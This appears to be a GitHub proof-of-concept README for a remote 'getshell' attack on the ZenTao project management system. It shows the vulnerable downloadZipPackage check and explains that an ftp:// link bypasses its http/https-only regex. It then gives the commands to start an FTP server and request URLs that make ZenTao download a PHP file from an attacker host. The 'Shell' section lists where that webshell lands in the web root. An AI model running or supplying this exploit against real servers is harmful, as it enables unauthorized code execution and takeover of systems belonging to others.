



# zentao Getshell




## downloadZipPackage

```
C:\Users\Jas502n\Desktop\xampp>findstr /s /i "downloadZipPackage" *

zentao\log.txt:module\client\control.php:        $result = $this->client->downloadZipPackage($version, $link);
zentao\log.txt:module\client\ext\model\xuanxuan.php:public function downloadZipPackage($version, $link)
zentao\log.txt:module\client\ext\model\xuanxuan.php:    return parent::downloadZipPackage($version, $link);
zentao\log.txt:module\client\model.php:    public function downloadZipPackage($version, $link)

zentao\module\client\control.php:        $result = $this->client->downloadZipPackage($version, $link);
zentao\module\client\ext\model\xuanxuan.php:public function downloadZipPackage($version, $link)
zentao\module\client\ext\model\xuanxuan.php:    return parent::downloadZipPackage($version, $link);
zentao\module\client\model.php:    public function downloadZipPackage($version, $link)
zentao\tmp\model\client.php:public function downloadZipPackage($version, $link)
zentao\tmp\model\client.php:    return parent::downloadZipPackage($version, $link);

zentaoep\module\client\control.php:        $result = $this->client->downloadZipPackage($version, $link);
zentaoep\module\client\ext\model\xuanxuan.php:public function downloadZipPackage($version, $link)
zentaoep\module\client\ext\model\xuanxuan.php:    return parent::downloadZipPackage($version, $link);
zentaoep\module\client\model.php:    public function downloadZipPackage($version, $link)
zentaoep\tmp\model\client.php:public function downloadZipPackage($version, $link)
zentaoep\tmp\model\client.php:    return parent::downloadZipPackage($version, $link);

zentaopro\module\client\control.php:        $result = $this->client->downloadZipPackage($version, $link);
zentaopro\module\client\ext\model\xuanxuan.php:public function downloadZipPackage($version, $link)
zentaopro\module\client\ext\model\xuanxuan.php:    return parent::downloadZipPackage($version, $link);
zentaopro\module\client\model.php:    public function downloadZipPackage($version, $link)
zentaopro\tmp\model\client.php:public function downloadZipPackage($version, $link)
zentaopro\tmp\model\client.php:    return parent::downloadZipPackage($version, $link);

C:\Users\Jas502n\Desktop\xampp>
```

#### \model\client.php

```
<?php
global $app;
helper::cd($app->getBasePath());
helper::import('module\client\model.php');
helper::cd();
class extclientModel extends clientModel 
{
public function getCurrentVersion()
{
    $currentVersion = $this->dao->select('*')->from(TABLE_IM_CLIENT)->where('status')->eq('released')->orderBy('id_desc')->limit(1)->fetch();

    if(dao::isError()) return false;
    return $currentVersion ?: json_decode('{"version": "' . $this->config->xuanxuan->version . '"}');
}

public function downloadZipPackage($version, $link)
{
    $decodeLink = helper::safe64Decode($link);
    if(preg_match('/^https?\:\/\//', $decodeLink)) return false;

    return parent::downloadZipPackage($version, $link);
}
//**//
}
```
利用ftp绕过正则匹配 `if(preg_match('/^https?\:\/\//', $decodeLink)) return false;`


## Exp

`pip install pyftpdlib`
`python -m pyftpdlib`



```
/zentao/client-download-2-ftp://172.16.242.1:2121/jas502n.php-1.html
/pro/client-download-2-ftp://172.16.242.1:2121/jas502n.php-1.html
/biz/client-download-2-ftp://172.16.242.1:2121/jas502n.php-1.html
```
## Shell

```
\xampp\zentao\www\data\client\2\jas502n.php
\xampp\zentaoep\www\data\client\2\jas502n.php
\xampp\zentaopro\www\data\client\2\jas502n.php
```


